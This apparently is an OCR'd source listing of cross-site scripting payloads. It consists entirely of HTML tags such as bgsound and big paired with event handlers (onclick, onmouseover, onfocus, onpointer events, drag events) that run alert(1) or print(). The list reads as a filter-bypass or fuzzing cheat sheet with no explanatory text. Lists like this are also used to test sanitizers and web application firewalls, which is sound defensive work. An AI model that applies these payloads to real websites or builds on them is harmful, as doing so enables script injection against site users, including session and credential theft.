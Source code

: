 &lt;bgsound onblur=alert(1) tabindex=1 id=x&gt;&lt;/bgsound&gt;&lt;input autofocus&gt;
&lt;bgsound onclick="alert(1)"&gt;test&lt;/bgsound&gt;
&lt;bgsound oncontextmenu="alert(1)"&gt;test&lt;/bgsound&gt;
&lt;bgsound oncopy=alert(1) value="XSS" autofocus tabindex=1&gt;test
&lt;bgsound oncut=alert(1) value="XSS" autofocus tabindex=1&gt;test
&lt;bgsound ondblclick="alert(1)" autofocus tabindex=1&gt;test&lt;/bgsound&gt;
&lt;bgsound onfocusout=alert(1) tabindex=1 id=x&gt;&lt;/bgsound&gt;&lt;input autofocus&gt;
&lt;bgsound onkeydown="alert(1)" contenteditable&gt;test&lt;/bgsound&gt;
&lt;bgsound onkeypress="alert(1)" contenteditable&gt;test&lt;/bgsound&gt;
&lt;bgsound onkeyup="alert(1)" contenteditable&gt;test&lt;/bgsound&gt;
&lt;bgsound onmousedown="alert(1)"&gt;test&lt;/bgsound&gt;
&lt;bgsound onmouseenter="alert(1)"&gt;test&lt;/bgsound&gt;
&lt;bgsound onmouseleave="alert(1)"&gt;test&lt;/bgsound&gt;
&lt;bgsound onmousemove="alert(1)"&gt;test&lt;/bgsound&gt;
&lt;bgsound onmouseout="alert(1)"&gt;test&lt;/bgsound&gt;
&lt;bgsound onmouseover="alert(1)"&gt;test&lt;/bgsound&gt;
&lt;bgsound onmouseup="alert(1)"&gt;test&lt;/bgsound&gt;
&lt;bgsound onmousewheel=alert(1)&gt;requires scrolling
&lt;bgsound onpaste="alert(1)" contenteditable&gt;test&lt;/bgsound&gt;
&lt;bgsound onpointerdown=alert(1)&gt;XSS&lt;/bgsound&gt;
&lt;bgsound onpointerenter=alert(1)&gt;XSS&lt;/bgsound&gt;
&lt;bgsound onpointerleave=alert(1)&gt;XSS&lt;/bgsound&gt;
&lt;bgsound onpointermove=alert(1)&gt;XSS&lt;/bgsound&gt;
&lt;bgsound onpointerout=alert(1)&gt;XSS&lt;/bgsound&gt;
&lt;bgsound onpointerover=alert(1)&gt;XSS&lt;/bgsound&gt;
&lt;bgsound onpointerrawupdate=alert(1)&gt;XSS&lt;/bgsound&gt;
&lt;bgsound onpointerup=alert(1)&gt;XSS&lt;/bgsound&gt;
&lt;big draggable="true" ondrag="alert(1)"&gt;test&lt;/big&gt;
&lt;big draggable="true" ondragend="alert(1)"&gt;test&lt;/big&gt;
&lt;big draggable="true" ondragenter="alert(1)"&gt;test&lt;/big&gt;
&lt;big draggable="true" ondragleave="alert(1)"&gt;test&lt;/big&gt;
&lt;big draggable="true" ondragstart="alert(1)"&gt;test&lt;/big&gt;
&lt;big id=x tabindex=1 onactivate=alert(1)&gt;&lt;/big&gt;
&lt;big id=x tabindex=1 onbeforeactivate=alert(1)&gt;&lt;/big&gt;
&lt;big id=x tabindex=1 onbeforedeactivate=print()&gt;&lt;/big&gt;&lt;input autofocus&gt;
&lt;big id=x tabindex=1 ondeactivate=print()&gt;&lt;/big&gt;&lt;input id=y autofocus&gt;
&lt;big id=x tabindex=1 onfocus=alert(1)&gt;&lt;/big&gt;
&lt;big id=x tabindex=1 onfocusin=alert(1)&gt;&lt;/big&gt;
&lt;big onafterscriptexecute=alert(1)&gt;&lt;script&gt;1&lt;/script&gt;
&lt;big onbeforecopy="alert(1)" contenteditable&gt;test&lt;/big&gt;
&lt;big onbeforecut="alert(1)" contenteditable&gt;test&lt;/big&gt;
&lt;big onbeforepaste="alert(1)" contenteditable&gt;test&lt;/big&gt;
&lt;big onbeforescriptexecute=alert(1)&gt;&lt;script&gt;1&lt;/script&gt;
&lt;big onblur=alert(1) tabindex=1 id=x&gt;&lt;/big&gt;&lt;input autofocus&gt;
&lt;big onclick="alert(1)"&gt;test&lt;/big&gt;
&lt;big oncontextmenu="alert(1)"&gt;test&lt;/big&gt;
&lt;big oncopy=alert(1) value="XSS" autofocus tabindex=1&gt;test
&lt;big oncut=alert(1) value="XSS" autofocus tabindex=1&gt;test
&lt;big ondblclick="alert(1)" autofocus tabindex=1&gt;test&lt;/big&gt;
&lt;big onfocusout=alert(1) tabindex=1 id=x&gt;&lt;/big&gt;&lt;input autofocus&gt;
&lt;big onkeydown="alert(1)" contenteditable&gt;test&lt;/big&gt;
&lt;big onkeypress="alert(1)" contenteditable&gt;test&lt;/big&gt;
&lt;big onkeyup="alert(1)" contenteditable&gt;test&lt;/big&gt;
&lt;big onmousedown="alert(1)"&gt;test&lt;/big&gt;
&lt;big onmouseenter="alert(1)"&gt;test&lt;/big&gt;
&lt;big onmouseleave="alert(1)"&gt;test&lt;/big&gt;
&lt;big onmousemove="alert(1)"&gt;test&lt;/big&gt;
&lt;big onmouseout="alert(1)"&gt;test&lt;/big&gt;
&lt;big onmouseover="alert(1)"&gt;test&lt;/big&gt;
&lt;big onmouseup="alert(1)"&gt;test&lt;/big&gt;
&lt;big onmousewheel=alert(1)&gt;requires scrolling
&lt;big onpaste="alert(1)" contenteditable&gt;test&lt;/big&gt;
&lt;big onpointerdown=alert(1)&gt;XSS&lt;/big&gt;
&lt;big onpointerenter=alert(1)&gt;XSS&lt;/big&gt;